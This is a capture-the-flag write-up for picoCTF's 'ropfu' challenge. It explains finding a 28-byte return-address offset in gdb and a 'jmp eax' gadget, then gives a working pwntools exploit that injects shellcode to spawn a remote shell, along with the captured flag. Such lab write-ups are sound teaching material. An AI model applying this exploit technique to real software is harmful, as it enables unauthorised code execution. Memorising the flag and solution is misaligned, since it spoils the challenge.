 # ropfu

The hint and the source code clearly indicate towards ROP to get a shell

1. Get position of return address of vuln() from the input buffer
    - `gdb ./vuln` -> `disas main` -> vuln() ideally returns at *0x08049e1a*
    - `disas vuln` -> set a breakpoint just after gets()
    - `run` -> give 10-15 a's as input -> at breakpoint, `x/100xg $ebp-200`
    - return address spotted **28 bytes** from the input

2. `checksec ./vuln` ->  Arch:       i386-32-little, Stack:      Executable
    - Can inject shellcode which to spawn shell, but the bytecode is too long for 28 bytes; can use *NOP slide* and a *jump over address*
    - Find `jmp eax` gadget (rip jumps to eax, which stores the buffer, which will contain shellcode) -> `ROPgadget --binary ./vuln  --only "jmp|eax"`
3. use `pwntools` to construct and send the payload:

    ```python
    from pwn import *

    # p = process('./vuln')
    p = remote('saturn.picoctf.net', 61390)
    p.recvline()
    offset = 28
    jmpshort = b'\xeb\x04' # jump over the address
    nop = b'\x90'
    jmpeax = 0x0805333b
    shellcode = asm(shellcraft.i386.linux.sh())

    payload = nop*(offset-len(jmpshort)) + jmpshort + p32(jmpeax) + shellcode
    p.sendline(payload)
    p.interactive()
    ```

    ```shell
    [+] Opening connection to saturn.picoctf.net on port 61390: Done
    [*] Switching to interactive mode
    $ ls
    flag.txt
    vuln
    $ cat flag.txt
    picoCTF{5n47ch_7h3_5h311_4cbbb771}$  
    ```
